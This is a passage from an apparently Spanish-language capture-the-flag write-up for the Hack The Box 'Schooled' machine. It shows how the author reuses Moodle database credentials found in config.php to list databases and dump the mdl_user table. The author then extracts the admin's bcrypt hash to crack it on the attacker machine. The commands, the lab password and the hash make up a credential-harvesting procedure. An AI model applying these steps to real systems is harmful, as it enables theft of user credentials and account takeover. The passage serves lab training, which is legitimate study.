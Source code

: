 ```bash
~$> echo $PATH
/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/$USER
```
```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ export PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/home/$USER
```

Con esto ya podremos usar mysqlshow y mysql, ya que con lo anterior, el sistema tiene más rutas para buscar
 - Listamos las bases de datos usando las credenciales que anteriormente encontramos en el fichero ```config.php```

```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysqlshow -umoodle -pPlaybookMaster2020
```
```bash
+--------------------+
|     Databases      |
+--------------------+
| information_schema |
| moodle             |
+--------------------+
```
 - Vemos 2 bases de datos, si vemos el contenido de la segunda (**moodle**), se nos listan muchas tablas, pero vemos una potencialmente crítica (**mdl_user**)

```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysqlshow -umoodle -pPlaybookMaster2020 moodle
```
```bash
[ ...  ...  ...  ...  ]
| mdl_url             |
| mdl_user            |
| mdl_user_devices    |
[ ...  ...  ...  ...  ]
```
 - Vemos el contenido de esta tabla con mysql

```bash
[www@Schooled /usr/local/www/apache24/data/moodle]$ mysql -umoodle -pPlaybookMaster2020 -e "select * from mdl_user" moodle
```
 - Luego de esto, se nos lista un monton de contenido, nosotros nos quedaremos con la fila que dice **admin**

```bash
[ ...  ...  ...  ...  ]		[ ...  ...  ...  ...  ]
admin   $2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW   Jamie   Borham  jamie@staff.schooled.htb
[ ...  ...  ...  ...  ]		[ ...  ...  ...  ...  ]
```
> Debemos recordar el nombre del usuario administrador (**Jamie**), este nos servirá más adelante

 - Copiamos el usuario (**admin**) con su hash (**$2y$10$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW**) y lo guardamos en un fichero en nuestra máquina de atacante
